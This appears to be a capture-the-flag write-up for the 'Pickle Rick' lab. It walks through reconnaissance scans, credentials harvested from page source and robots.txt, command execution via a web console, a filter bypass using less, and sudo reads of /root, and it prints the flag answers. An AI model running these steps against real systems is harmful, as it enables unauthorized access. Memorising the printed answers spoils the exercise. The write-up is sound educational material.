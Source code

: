 # Pickle Rick

Laurent Chauvin | October 30, 2022

## Resources

## Progress

export IP=10.10.73.227

nmap scan:
```
nmap -sC -sV -oN nmap/initial $IP

Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-30 17:43 EDT
Nmap scan report for 10.10.73.227
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:97:24:25:65:58:66:2a:4e:60:18:82:80:c0:44:2c (RSA)
|   256 d0:a6:3e:90:f3:c5:f0:82:56:49:b3:19:51:89:43:34 (ECDSA)
|_  256 7c:a6:93:24:1b:78:0c:95:57:1e:f8:9d:8f:aa:cc:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.21 seconds

```

Examining HTML source code reveal:

```
<!--Note to self, remember username! Username: R1ckRul3s-->
```

Run gobuster:
```
gobuster dir -u $IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.73.227
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2022/10/30 17:47:33 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://10.10.73.227/assets/]
/server-status        (Status: 403) [Size: 300]
Progress: 220532 / 220561 (99.99%)===============================================================
2022/10/30 18:26:21 Finished
===============================================================
```

Run Nikto:
```
nikto -h "http://10.10.73.227" | tee nikto.log

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.73.227
+ Target Hostname:    10.10.73.227
+ Target Port:        80
+ Start Time:         2022-10-30 17:51:01 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Cookie PHPSESSID created without the httponly flag
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 7889 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2022-10-30 18:06:10 (GMT-4) (909 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Accessing robots.txt yields:
```
Wubbalubbadubdub
```

Found a webpage:
```
http://10.10.73.227/login.php
```

Testing with R1ckRul3s, and password Wubbalubbadubdub.
Login granted.

Run commands on webconsole:
```
ls

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

```
cat Sup3rS3cretPickl3Ingred.txt

Command disabled to make it hard for future PICKLEEEE RICCCKKKK.
```

After testing found disabled commands:

```
cat, more
```

Command ```less``` seems to work.

First flag:
```
less Sup3rS3cretPickl3Ingred.txt

mr. meeseek hair
```

```
less clue.txt

Look around the file system for the other ingredient.
```

```pwd``` seems to indicate we are in ```/var/www/html```.

Let's check 'rick' home folder.

```
ls -al /home/rick

total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

Found second ingredient:
```
less /home/rick/second\ ingredients

1 jerry tear
```

```sudo``` commands seems to work.

/root dir has:

```
sudo ls -al /root

total 28
drwx------  4 root root 4096 Feb 10  2019 .
drwxr-xr-x 23 root root 4096 Oct 30 21:41 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
```

Finally:
```
sudo less /root/3rd.txt

3rd ingredients: fleeb juice
```

## Flag

1. What is the first ingredient Rick needs?

```
mr. meeseek hair
```

2. What is the second ingredient Rick needs?

```
1 jerry tear
```

3. What is the third ingredient Rick needs?

```
fleeb juice
```